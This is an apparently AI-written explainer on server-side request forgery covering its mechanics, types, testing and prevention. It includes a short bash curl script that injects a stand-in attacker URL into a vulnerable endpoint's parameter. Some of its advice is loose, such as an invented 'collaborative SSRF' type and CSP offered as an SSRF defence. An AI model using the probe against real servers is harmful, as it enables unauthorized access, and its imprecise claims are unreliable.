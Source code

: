 Certainly! Let's delve into SSRF (Server-Side Request Forgery) vulnerabilities.

### Understanding SSRF:

SSRF occurs when an attacker can make a server perform requests on behalf of the attacker, usually within the server's internal network. This can lead to various security risks, including unauthorized access to internal resources, data leakage, and potential server-side exploitation.

### How SSRF Works:

1. **Input Point:** SSRF vulnerabilities often arise from user-controllable input points, such as URL parameters, file uploads, or API endpoints.
  
2. **Request Forging:** The attacker manipulates these input points to trick the server into making unintended requests. For example, by providing a URL pointing to an internal resource like `http://internal-server/admin`, the attacker may attempt to access sensitive data or services.

3. **Server Execution:** The server processes the attacker-supplied URL and performs the request, unaware that it's manipulated by the attacker.

4. **Data Retrieval or Execution:** The attacker receives the response from the server or potentially leverages the SSRF to interact with internal systems, execute commands, or exploit further vulnerabilities.

### Types of SSRF Vulnerabilities:

1. **Basic SSRF:** Directly accessing internal resources or services via SSRF.
   
2. **Blind SSRF:** The attacker cannot directly see the response but can infer it based on the server's behavior, such as timing or error messages.

3. **Collaborative SSRF:** Exploiting SSRF to attack other systems or services accessible to the server.

### Testing for SSRF Vulnerabilities:

1. **Identify Input Points:** Look for user-controlled inputs in the application, such as URL parameters, file uploads, or API endpoints.

2. **Test with Localhost:** Attempt to replace the hostname with localhost or other internal IP addresses to see if the server responds differently.

3. **Test with External Hosts:** Probe for SSRF by substituting the URL with external addresses and observing the server's behavior. This can include accessing sensitive information or services that should be restricted.

### Bash Script to Test SSRF:

Here's a basic bash script to test SSRF:

```bash
#!/bin/bash

url="http://vulnerable-server.com/api/endpoint"
attacker_controlled_url="http://attacker-controlled-server.com/evil"

# Replace the vulnerable parameter with the attacker-controlled URL
final_url="${url}?param=${attacker_controlled_url}"

# Send a request and observe the response
curl -i $final_url
```

### Preventing SSRF:

1. **Whitelist Input Validation:** Restrict input to known safe domains or IP ranges using whitelists.

2. **Use Indirection:** Utilize indirect methods such as DNS resolution or IP blacklists to validate user-supplied URLs.

3. **Network Segmentation:** Isolate servers from internal networks, limiting their ability to access sensitive resources.

4. **Access Controls:** Implement strong access controls and authentication mechanisms to prevent unauthorized access to internal resources.

5. **Content Security Policy (CSP):** Employ CSP headers to restrict the types of resources a page can request.

6. **Regular Security Audits:** Continuously monitor and audit your applications for SSRF vulnerabilities and other security threats.

By understanding how SSRF works, employing effective testing methodologies, and implementing robust prevention measures, you can mitigate the risks associated with SSRF vulnerabilities effectively.
